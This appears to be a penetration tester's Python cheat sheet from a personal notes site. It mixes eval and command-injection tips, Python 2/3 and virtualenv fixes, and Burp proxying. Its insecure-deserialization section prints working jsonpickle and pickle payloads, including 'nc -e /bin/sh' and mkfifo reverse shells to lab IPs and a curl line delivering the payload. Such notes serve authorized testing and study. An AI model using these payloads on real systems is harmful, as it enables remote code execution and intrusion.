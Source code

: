 # Python

{% hint style="info" %}
cat files and filter by critical functions such as exec, eval, system...
{% endhint %}

## eval()

[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/)

[https://vk9-sec.com/exploiting-python-eval-code-injection/](https://vk9-sec.com/exploiting-python-eval-code-injection/)

```python
eval("11 + 2 and __import__('os').sytem('whoami')")
```

## General

```bash
# Escape quotes
\'
\"
```

## Pitfalls&#x20;

[https://www.sonarsource.com/blog/10-unknown-security-pitfalls-for-python/](https://www.sonarsource.com/blog/10-unknown-security-pitfalls-for-python/)

### input()

function is vulnerable, we could inject commands. Check Command Injection section.

## Python2 to Python3

[https://docs.python.org/3/library/2to3.html](https://docs.python.org/3/library/2to3.html)

```python
ERROR:can't concat str to bytes
# BEST SOLUTION: DECODE (BYTES TO STRING)
VARIABLE.decode()
# ANOTHER SOLUTION: STRING TO BYTES
VARIABLE.encode()
VARIABLE.encode("utf-8")

ERROR write() argument must be str, not bytes
# APPLY BEST SOLUTION ABOVE, OTHERWISE TRY THIS
write(str(argument))
```

## Indentation errors in Python

{% hint style="success" %}
SOLUTION: replace every tab for 4 spaces
{% endhint %}

## Issues with binaries/tools

Create **venv**, activate and then git clone repos and python setup install or pip if needed.

## Compatibility / Virtual environment

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.kali.org/docs/general-use/using-eol-python-versions/
https://peps.python.org/pep-0668/
https://www.kali.org/blog/kali-linux-2023-1-release/#python-updates--changes

python3 -m venv venv
source venv/bin/activate

# PYTHON2
root@kali:~# virtualenv --version
virtualenv 20.2.2 from /usr/local/lib/python3.9/dist-packages/virtualenv/__init__.py
root@kali:~# which python2
/usr/bin/python2
root@kali:~# virtualenv -p /usr/bin/python2 ~/venv/python2
root@kali:~# source ~/venv/python2/bin/activate
(python2) root@kali:~# pip -V
pip 20.3.1 from /root/venv/python2/lib/python2.7/site-packages/pip (python 2.7)
(python2) root@kali:~# python --version
Python 2.7.18
(python2) root@kali:~# pip list
# To activate it
root@kali:~/CTF/PWK# source ~/venv/python2/bin/activate
# Now for every Python 2 exploit you come across replace the shebang (#!/usr/bin/python) with #!/usr/bin/env python
# To deactivate it
(python2) root@kali:~# deactivate
```
{% endcode %}

## **Find tab/identation problems**

```python
python -m tabnanny script.py

https://pypi.org/project/autopep8/ 
autopep8 script.py good-script.py
```

## **HTTP(S) Server**

[**https://pypi.org/project/uploadserver/**](https://pypi.org/project/uploadserver/)

[**https://gist.github.com/DannyHinshaw/a3ac5991d66a2fe6d97a569c6cdac534**](https://gist.github.com/DannyHinshaw/a3ac5991d66a2fe6d97a569c6cdac534)

## **POST Server**

[**https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7**](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7)

{% hint style="info" %}
Netcat `nc -lvnp $PORT` would also be valid for this case
{% endhint %}

## **Insecure deserialization**

### **Python Pickle**

{% hint style="info" %}
Pay attention to Python2/Python3 (if the machine is quite old try Python2) and also Content-Type on the request (try text, text/plain and stuff like that)
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```python
https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Python.md
https://davidhamann.de/2020/04/05/exploiting-python-pickle/

# Instead of Popen, use os.system to spawn a reverse shell
echo '{"py/object": "__main__.Shell", "py/reduce": [{"py/type": "os.system"}, {"py/tuple": ["nc -e /bin/sh 10.0.2.5 1234"]}, null, null, null]}' | base64

# ANOTHER OPTION CALLING A SCRIPT ON THE SAME FOLDER
{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["./shell.sh"]}, null, null, null]}]}
# That shell.sh has the code to spawn a reverse shell
echo "#!/bin/bash\nmkfifo /tmp/mylge; nc 192.168.56.1 1337 0</tmp/mylge | /bin/sh >/tmp/mylge 2>&1; rm /tmp/mylge" > shell.sh


################ SCRIPT
import os, pickle, base64

cmd = """ping -c 2 $LOCAL_IP"""

class Exploit(object):
    def __init__(self, cmd):
        self.cmd = cmd
    def __reduce__(self):
        return (os.system, (self.cmd,))

print pickle.dumps(Exploit(cmd))
print base64.urlsafe_b64encode(pickle.dumps(Exploit(cmd)))

# Send payload via CURL (change it if the requires different methods/parameters)
curl -d "pickled=gASVbgAAAAAAAACMBX..." http://127.0.0.1:5000/hackme
```
{% endcode %}

## Requests via Burp

{% code overflow="wrap" %}
```python
https://www.th3r3p0.com/random/python-requests-and-burp-suite.html
import requests

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

r = requests.get("https://www.google.com/", proxies=proxies, verify=False)

# To set CA Bundle we need to convert the DER formatted certificate downloaded via web on Burp to .pem
openssl x509 -inform der -in certificate.cer -out certificate.pem
# If we want to skip writting proxies and verify=False parameters, set these environmental variables
export REQUESTS_CA_BUNDLE="/path/to/pem/encoded/cert"
export HTTP_PROXY="http://127.0.0.1:8080"
export HTTPS_PROXY="http://127.0.0.1:8080"
# To remove them
unset REQUESTS_CA_BUNDLE
unset HTTP_PROXY
unset HTTPS_PROXY
```
{% endcode %}

## pwntools

{% content-ref url="../../misc/scripting.md" %}
[scripting.md](../../misc/scripting.md)
{% endcontent-ref %}

## pdb() debug RCE

```bash
# If pdb is used, force an error/exception to enter debug mode and then:
(pdb) import os
(pdb) os.system("command")
```

## Decompile .pyc files

{% embed url="https://github.com/rocky/python-uncompyle6" %}

{% hint style="info" %}
For higher Python versions use [https://github.com/rocky/python-decompile3#installation](https://github.com/rocky/python-decompile3#installation)
{% endhint %}

## Python exploits -> .exe binaries

{% embed url="https://github.com/brentvollebregt/auto-py-to-exe" %}

### PyInstaller

https://www.pyinstaller.org

Packages Python applications intostand-alone executables for various target operating systems.

```
pyinstaller.exe --onefile .\41090.py
```

